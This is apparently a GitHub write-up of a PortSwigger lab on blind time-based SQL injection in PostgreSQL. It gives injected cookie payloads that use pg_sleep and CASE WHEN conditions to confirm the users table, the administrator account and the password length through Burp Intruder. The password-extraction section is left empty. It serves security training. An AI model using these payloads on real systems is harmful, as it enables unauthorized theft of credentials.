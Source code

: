 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/906132fb-aaaa-40a2-8bae-549e655fd736)


## Solution :

query made--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

#### Checking that it is vulnerable to blind sql injection  -

query changed--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || pg_sleep(10)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a7e55875-624d-40cb-90b4-3ca17314936b)

Time delay of `20717`. SO it is vulnerable to blind sql injection.

#### Confirm that user table  present in the database-

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1)END)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/678c0f24-fda6-40a5-a46a-60009b68ba05)

Time delay of `15990`.so it is valid query so now we can find whether user table  present in the database or not.here we used the negtive number `-1` because when it is false it won't cause any delay.

when i changed the value from `1=1` to `1=0` it should not cause any dealy lets check if it coming correct or not.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(-1)END)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6570c398-8a56-495b-babe-c345920f734c)

Time delay of `725` which is very much less 10 sec and it didn't cause any delay.So it is valid query so now we can find whether user table  present in the database or not.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0883964a-228a-4954-a7ec-ed0777a7973d)

Time delay of `12559`.which is larger than 10 sec so now we know user table  present in the database.

#### finding the length of the password--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/50b23f29-6c26-4305-b909-b878d2861c94)

Time delay of `10719`.which is larger than 10 sec. So condition is true  length of the password is larger than `1`

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>25) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4377c941-63fc-4134-ac0e-7ead36eba660)

Time delay of `725` which is less 10 sec. So condition is false  length of the password is smaller than `25`

```To find the length of the password send qury to  Intruder then and Add the password length part as payload and select attack type as SNIPER .Then go to  payload sleect payload type as numbers after that set from 1 to 25 and start the attack ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>$1$) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4829c5e2-08cf-478a-8ee1-75f04dc10515)

`we also remove the default resource pool because it mess up with my time based sql injection code by adding create new resource pool and  tick the maximum concentration requests and set it as 1 and start attack.`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/dd630b58-8799-4026-88e8-d80c852a0f10)

`After completing the attack go to coloum then click on response received`.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/69105943-3741-46f4-8db4-c82c963c8d82)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1f46ac1b-5841-4e3c-b826-29df928c0ca5)

From 20 onwards the Time delay is less than 10.So we can say that the length of the password is `20`

#### finding the password--
















